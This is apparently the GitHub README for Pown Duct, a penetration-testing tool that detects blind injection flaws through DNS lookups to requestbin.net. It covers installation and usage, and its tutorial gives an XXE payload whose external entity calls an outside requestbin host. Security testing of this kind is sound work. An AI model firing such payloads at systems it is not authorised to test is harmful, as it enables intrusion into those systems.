 [![Follow on Twitter](https://img.shields.io/twitter/follow/pownjs.svg?logo=twitter)](https://twitter.com/pownjs)
[![NPM](https://img.shields.io/npm/v/@pown/duct.svg)](https://www.npmjs.com/package/@pown/duct)
[![Fury](https://img.shields.io/badge/version-2x%20Fury-red.svg)](https://github.com/pownjs/lobby)

# Pown Duct

Essential tool for finding blind injection attacks using DNS side-channels.

## Credits

This tool is part of [secapps.com](https://secapps.com) open-source initiative.

```
  ___ ___ ___   _   ___ ___  ___
 / __| __/ __| /_\ | _ \ _ \/ __|
 \__ \ _| (__ / _ \|  _/  _/\__ \
 |___/___\___/_/ \_\_| |_|  |___/
  https://secapps.com
```

> **NB**: This tool is taking advantage of http://requestbin.net service. Future versions will use a dedicated, custom-built infrastructure.

## Quickstart

This tool is meant to be used as part of [Pown.js](https://github.com/pownjs/pown) but it can be invoked separately as an independent tool.

Install Pown first as usual:

```sh
$ npm install -g pown@latest
```

Invoke directly from Pown:

```sh
$ pown duct
```

Otherwise, install this module locally from the root of your project:

```sh
$ npm install @pown/duct --save
```

Once done, invoke pown cli:

```sh
$ ./node_modules/.bin/pown-cli duct
```

You can also use the global pown to invoke the tool locally:

```sh
$ POWN_ROOT=. pown duct
```

## Usage

```
pown duct <command>

Side-channel attack enabler

Commands:
  pown duct dns  DNS ducting

Options:
  --version  Show version number  [boolean]
  --help     Show help  [boolean]
```

### `pown duct dns`

```
pown duct dns

DNS ducting

Options:
  --version  Show version number  [boolean]
  --help     Show help  [boolean]
  --channel  Restore channel  [string]
  --output   Output format  [string] [choices: "string", "hexdump", "json"] [default: "string"]
```

## Tutorial

There are cases when we need to perform an attack such as sql injection, XSS, XXE or SSRF but the target application is not providing any indication that it is vulnerable. One way to be sure if a vulnerability is present is to try to inject a valid attack vector which forces a DNS resolver to ask for a controlled domain. If the resolution is successful, the attack will be considered successful.

> **NOTE**: You might be familiar with Burp Collaborator which provides a similar service for customers.

First, we need a disposable dns name to resolve:

```sh
$ pown duct dns
```

![screenshot](https://media.githubusercontent.com/media/pownjs/pown-duct/master/screenshots/01.png)

Using the provided DNS, compose your payload. For example, the following could trigger a DNS resolution if a XXE vulnerability is present.

```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY bar SYSTEM "http://showmethemoney.bfa8b8d3c25f09d5429f.d.requestbin.net">
]>
<foo>
&bar;
</foo>
```

If the attack was successful, we will get a message in the terminal.

![screenshot](https://media.githubusercontent.com/media/pownjs/pown-duct/master/screenshots/02.png)
